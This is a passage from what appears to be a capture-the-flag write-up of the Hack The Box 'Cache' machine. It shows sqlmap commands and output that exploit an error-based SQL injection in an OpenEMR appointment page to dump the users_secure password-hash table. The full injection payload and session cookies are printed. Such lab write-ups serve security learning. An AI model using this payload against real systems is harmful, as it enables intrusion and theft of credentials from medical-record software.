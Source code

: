 ```
[09:33:17] [INFO] fetched data logged to text files under '/home/snowscan/.sqlmap/output/hms.htb'

[*] ending @ 09:33:17 /2020-05-10/
```

We'll dump the `users_secure` table containg the password hash.

```
snowscan@kali:~/htb/cache$ sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=*" --cookie="OpenEMR=vp4f9asgbv507vpt84cioecmbg; PHPSESSID=cs1o3vot21n4odtira0s19iqu1" --technique E --dbms=mysql -D openemr -T users_secure --dump
        ___
       __H__                                                                                                       
 ___ ___[)]_____ ___ ___  {1.4.4#stable}                                                                           
|_ -| . [']     | .'| . |                                                                                          
|___|_  [,]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   http://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:34:49 /2020-05-10/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] 
[09:34:49] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[09:34:49] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://hms.htb:80/portal/find_appt_popup_user.php?catid='||(SELECT 0x426c764c WHERE 3030=3030 AND (SELECT 8964 FROM(SELECT COUNT(*),CONCAT(0x7176786a71,(SELECT (ELT(8964=8964,1))),0x71716b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'                                                                       
---
[09:34:49] [INFO] testing MySQL
[09:34:49] [INFO] confirming MySQL
[09:34:50] [WARNING] reflective value(s) found and filtering out
[09:34:50] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[09:34:50] [INFO] fetching columns for table 'users_secure' in database 'openemr'
[09:34:50] [INFO] retrieved: 'id'
[09:34:50] [INFO] retrieved: 'bigint(20)'
[09:34:50] [INFO] retrieved: 'username'
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] retrieved: 'password'
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] retrieved: 'salt'
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] retrieved: 'last_update'
[09:34:50] [INFO] retrieved: 'timestamp'
[09:34:50] [INFO] retrieved: 'password_history1'
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] retrieved: 'salt_history1'
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] retrieved: 'password_history2'
```